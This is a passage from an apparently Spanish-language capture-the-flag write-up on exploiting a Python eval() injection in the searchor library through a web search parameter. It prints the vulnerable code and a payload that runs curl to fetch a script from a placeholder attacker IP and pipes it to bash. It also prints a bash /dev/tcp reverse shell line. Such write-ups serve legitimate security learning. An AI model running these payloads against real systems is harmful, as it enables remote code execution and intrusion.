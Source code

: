 ```
Si interceptamos la peticion con burp, podemos ver que nuestro input esta pasando por el parametro ```query```

![](/assets/img/busqueda/busqueda2.png)

## Vulnerabilidad en searchor

Si vemos en el footer de la pagina, podemos ver que esta usando ```searchor```

![](/assets/img/busqueda/busqueda3.png)

Si le damos click en el nombre, nos mandara a su repo de github, sin embargo la version que sale es la ```2.5.2```, asi que empezaremos a buscar entre las versiones, a ver si encontramos algo interesante.

En la version ```2.4.2``` se arreglo una vulnerabilidad en la busqueda por CLI:

![](/assets/img/busqueda/busqueda4.png)

Al ver las notas del parche, basicamente nos dice que se removio el metodo ```eval()``` de la busqueda por CLI, ya que podiamos ejecutar codigo arbitrario:

```python
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = eval(
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
        click.echo(url)
        searchor.history.update(engine, query, url)
        if open:
```

Podemos ver que se esta usando el metodo ```eval()```, donde el primer argumento que recibe, el cual se le llama ```expresion```, es el input que nosotros le mandamos desde la pagina, al ver un poquito del metodo eval, encontre que la ```expresion``` es evaluada como una expresion de python, y el valor de retorno de ```eval()```, es el resultado de evaluar la ```expresion```. Si quieres saber mas has click [aqui](https://www.programiz.com/python-programming/methods/built-in/eval)

## Explotando la funcion eval()

Guiandome de este [link](http://vipulchaskar.blogspot.com/2012/10/exploiting-eval-function-in-python.html), intentare ejecutar comandos en el servidor, cree un payload para mandarme una revese shell:

```python
',eval("__import__('os').system('curl http://<tu_IP>:8086/shell.html | bash')"))#
```
Y en mi archivo shell.html tengo esto:

```
bash -i >& /dev/tcp/<tu_IP>/443 0>&1
```
Ojo: puse el puerto 8086 por que el 8080 y el 80 los tengo ocupados
